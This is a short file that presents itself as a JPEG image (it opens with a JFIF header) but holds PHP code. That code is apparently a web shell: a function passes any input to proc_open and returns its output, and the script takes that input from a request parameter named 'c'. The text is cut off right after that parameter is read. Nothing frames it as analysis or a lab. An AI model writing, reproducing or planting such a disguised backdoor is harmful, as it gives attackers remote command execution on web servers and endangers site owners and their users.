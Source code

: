 ���� JFIF      ��

<?php



function executeCommand($input) {

    $descriptors = array(

        0 => array("pipe", "r"),

        1 => array("pipe", "w"),

        2 => array("pipe", "w") 

    );



    $process = proc_open($input, $descriptors, $pipes);



    if (is_resource($process)) {

      

        $output = stream_get_contents($pipes[1]);

        $errorOutput = stream_get_contents($pipes[2]);



        fclose($pipes[0]);

        fclose($pipes[1]);

        fclose($pipes[2]);



        

        $exitCode = proc_close($process);



        if ($exitCode === 0) {

            return $output;

        } else {

            return "Error: " . $errorOutput;

        }

    } else {

        return "↳ Tidak dapat menjalankan perintah\n";

    }

}



if (isset($_REQUEST['c'])) {

    $command = $_REQUEST['c'];
